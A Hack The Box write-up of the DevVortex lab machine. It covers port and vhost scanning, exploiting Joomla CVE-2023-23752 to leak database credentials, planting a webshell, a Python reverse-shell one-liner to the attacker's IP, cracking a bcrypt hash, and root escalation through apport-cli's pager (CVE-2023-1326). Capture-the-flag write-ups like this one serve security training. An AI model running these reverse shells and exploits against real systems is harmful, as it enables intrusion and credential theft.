

# DevVortex

This is the write-up for the DevVortex machine from Hack The Box.

# Reconnaissance

First, we execute a full port scan on the machine.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.191]
├──[  ~/htb/seasonal/devvortex]
└─ $  sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.129.154.62

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We found 2 ports open. We execute now a port scan only on the open ports.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.54]
├──[  ~/htb/seasonal/devvortex]
└─ $  sudo nmap -vv -sV -sC -Pn -p 22,80 -oA nmap/devvortex 10.129.154.62

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found a domain where the Nmap tool tried to redirect to it but unsuccessfully. We have to write the domain down to our hosts file.



Accessing the webpage, we got the following.


Navigating on the page we noticed that it is a static website.

# Enumeration

We executed a brute-force directory enumeration and we didn’t get anything useful. So we executed a brute-force vhosts enumeration.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.54]
├──[  ~/htb/seasonal/devvortex]
└─ $  gobuster vhost -u "http://devvortex.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 40 -o gobuster/devvortex_vhosts                                 [ 3:35 1 ⨯ ]
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://devvortex.htb
[+] Method:       GET
[+] Threads:      40
[+] Wordlist:     /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/11/27 15:35:48 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.devvortex.htb (Status: 200) [Size: 23221]
                                                    
===============================================================
2023/11/27 15:36:10 Finished
===============================================================
```

We found the dev subdomain and wrote it down to our hosts file too.


Accessing the new subdomain on our browser, we got the following web page.


It seems a static website too, so we execute a new brute-force directory enumeration on this subdomain.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.54]
├──[  ~/htb/seasonal/devvortex]
└─ $  gobuster dir -e -u "http://dev.devvortex.htb/" -w "/opt/SecLists/Discovery/Web-Content/raft-small-directories.txt" -t 40 -o gobuster/dev_devvortex_root 10.129.154.62

```

We found quite some directories that redirect to another address. We access the administrator endpoint and we get the Joomla Administration Page.


Verifying if we could access the README.txt file, we were successful and we could verify that the Joomla’s version running is the 4.2.


Searching for some public vulnerabilities for this version, we got the following link on GitHub.

[https://github.com/Acceis/exploit-CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752)

# Exploitation

We follow the steps of the requirements for installation of this exploit, clone the repository, and execute it as mentioned in its GitHub.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.54]
├──[  ~/htb/seasonal/images/exploitation]
└─ $  sudo gem install httpx docopt paint                                                                                                                                            [ 3:49 ]
Fetching httpx-1.1.5.gem
Fetching http-2-next-1.0.1.gem
Successfully installed http-2-next-1.0.1
Successfully installed httpx-1.1.5
Parsing documentation for http-2-next-1.0.1
Installing ri documentation for http-2-next-1.0.1
Parsing documentation for httpx-1.1.5
Installing ri documentation for httpx-1.1.5
Done installing documentation for http-2-next, httpx after 3 seconds
Fetching docopt-0.6.1.gem
Successfully installed docopt-0.6.1
Parsing documentation for docopt-0.6.1
Installing ri documentation for docopt-0.6.1
Done installing documentation for docopt after 0 seconds
Fetching paint-2.3.0.gem
Successfully installed paint-2.3.0
Parsing documentation for paint-2.3.0
Installing ri documentation for paint-2.3.0
Done installing documentation for paint after 0 seconds
4 gems installed

┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.54]
├──[  ~/…/seasonal/images/exploitation/exploit-CVE-2023-23752]
└─ $  ruby exploit.rb http://dev.devvortex.htb                                                                                                                                       [ 3:51 ]
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

| **USER** | **PASSWORD** |
| --- | --- |
| lewis | P4ntherg0t1n5r3c0n## |
| logan | tequieromucho |

We could retrieve the credential for the user lewis. We could log into the Joomla Admin Dashboard as lewis.


We found the offline.php file from the site template site and we changed the content for our webshell.


Then we access our webshell and execute the id command in cmd parameter.


Now, we opened a listener on our attack machine and executed our reverse shell connection.

```python
PYTHON REVERSE SHELL
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

```bash
OUR LISTENER
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.54]
├──[  ~/…/seasonal/images/exploitation/exploit-CVE-2023-23752]
└─ $  sudo python3 -m pwncat -lp 443                                                                                                                                                 [ 3:59 ]
[15:59:45] Welcome to pwncat 🐈!                                                                                                                                               __main__.py:164
[16:01:33] received connection from 10.129.154.62:35496                                                                                                                             bind.py:84
[16:01:37] 10.129.154.62:35496: registered new host w/ db                                                                                                                       manager.py:957
(local) pwncat$                                                                                                                                                                               
(remote) www-data@devvortex:/var/www/dev.devvortex.htb/templates/cassiopeia$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Lateral Movement

As we have the DB Credentials for the Joomla’s database, we access it and could retrieve the logan’s user hash. First we log into mysql local server.

```python
(remote) www-data@devvortex:/var/www/dev.devvortex.htb/templates/cassiopeia$ mysql -u lewis -pP4ntherg0t1n5r3c0n##
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 20242
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Then we retrieve the logan’s hash from the Joomla user’s table.

```bash
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.01 sec)
```

We use the HashCat tool to crack the logan’s hash. We were able to crack it.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.54]                                                                                                                                    
├──[  ~/htb/seasonal/devvortex]                                                                                                                                                              
└─ $  hashcat -m 3200 logan.hash /usr/share/wordlists/rockyou.txt --username --force                                                                                                 [10:22 ] 
hashcat (v6.1.1) starting...                                                                                                                                                                  
                                                                                                                                                                                              
You have enabled --force to bypass dangerous warnings and errors!                                                                                                                             
This can hide serious problems and should only be done when debugging.                                                                                                                        
Do not report hashcat issues encountered when using --force.                                                                                                                                  
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]                                                                 
=============================================================================================================================                                                                 
* Device #1: pthread-Intel(R) Core(TM) i5-9500 CPU @ 3.00GHz, 13669/13733 MB (4096 MB allocatable), 6MCU                                                                                      
                                                                                                                                                                                              
Minimum password length supported by kernel: 0                                                                                                                                                
Maximum password length supported by kernel: 72                                                                                                                                               
                                                                                                                                                                                              
Hashes: 1 digests; 1 unique digests, 1 unique salts                                                                                                                                           
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
                                                  
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix) 
Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
Time.Started.....: Tue Nov 28 10:22:32 2023, (13 secs)
Time.Estimated...: Tue Nov 28 10:22:45 2023, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      115 H/s (10.20ms) @ Accel:24 Loops:8 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1440/14344385 (0.01%)
Rejected.........: 0/1440 (0.00%)
Restore.Point....: 1296/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidates.#1....: winston -> michel

Started: Tue Nov 28 10:22:30 2023
Stopped: Tue Nov 28 10:22:46 2023
```

We were successful in login into SSH service with these credentials.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.54]
├──[  ~/htb/seasonal/devvortex]
└─ $  ssh logan@devvortex.htb                                                                                                                                                        [10:26 ]
The authenticity of host 'devvortex.htb (10.129.154.62)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'devvortex.htb,10.129.154.62' (ECDSA) to the list of known hosts.
logan@devvortex.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 28 Nov 2023 06:26:53 PM UTC

  System load:           0.0
  Usage of /:            65.1% of 4.76GB
  Memory usage:          18%
  Swap usage:            0%
  Processes:             169
  Users logged in:       0
  IPv4 address for eth0: 10.129.154.62
  IPv6 address for eth0: dead:beef::250:56ff:feb0:d411

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Nov 21 10:53:48 2023 from 10.10.14.23
logan@devvortex:~$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan)
```

# Privilege Escalation

Searching around for some way to escalate our privilege to root user, we found the following command that we can execute as root without password.

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Searching for privilege escalation through `apport-cli` tool, we found the CVE-2023-1326. 


Checking the version of the apport-cli binary we verify it is vulnerable.

```bash
logan@devvortex:~$ /usr/bin/apport-cli --version
2.20.11
```

Searching for some public Proof of Concept, we found the following link that explains how to execute it.

[Bug #2016023 “viewing an apport-cli crash with default pager cou...” : Bugs : apport package : Ubuntu](https://bugs.launchpad.net/ubuntu/+source/apport/+bug/2016023)


So, we have to create some .crash or .apport file first. We create a bug report for the less binary and choose to keep the report file option.

```bash
logan@devvortex:/tmp$ sudo /usr/bin/apport-cli less

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.8 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): K
Problem report file: /tmp/apport.less.whc_lcqa.apport
```

Now, we execute the `apport-cli` as the PoC shows us, passing our report file created before and pass the View report option.

```bash
logan@devvortex:/tmp$ sudo /usr/bin/apport-cli -c /tmp/apport.less.whc_lcqa.apport
== ApportVersion =================================                                                                                                                                      [0/88]
2.20.11-0ubuntu27

== Architecture =================================
amd64

== CasperMD5CheckResult =================================
skip

== Date =================================
Tue Nov 28 18:36:06 2023

== Dependencies =================================
gcc-10-base 10.5.0-1ubuntu1~20.04
libc6 2.31-0ubuntu9.12
libcrypt1 1:4.4.10-10ubuntu4
libgcc-s1 10.5.0-1ubuntu1~20.04
libidn2-0 2.2.0-2
libtinfo6 6.2-0ubuntu2.1
libunistring2 0.9.10-2

== DistroRelease =================================
Ubuntu 20.04

== Package =================================
less 551-1ubuntu0.1

== PackageArchitecture =================================
amd64

== ProblemType =================================
Bug

== ProcCpuinfoMinimal =================================
processor       : 1
vendor_id       : AuthenticAMD
cpu family      : 25
model           : 1
model name      : AMD EPYC 7763 64-Core Processor
stepping        : 1
microcode       : 0xa0011ce
cpu MHz         : 2445.406
cache size      : 512 KB
physical id     : 2
:
```

Now we just execute our payload as the following:

```bash
PAYLOAD
!/bin/bash
============================================================================================================================================
logan@devvortex:/tmp$ sudo /usr/bin/apport-cli -c /tmp/apport.less.whc_lcqa.apport

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.8 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
root@devvortex:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

We were able to escalate our privilege as user root and have administrative permissions on the host.

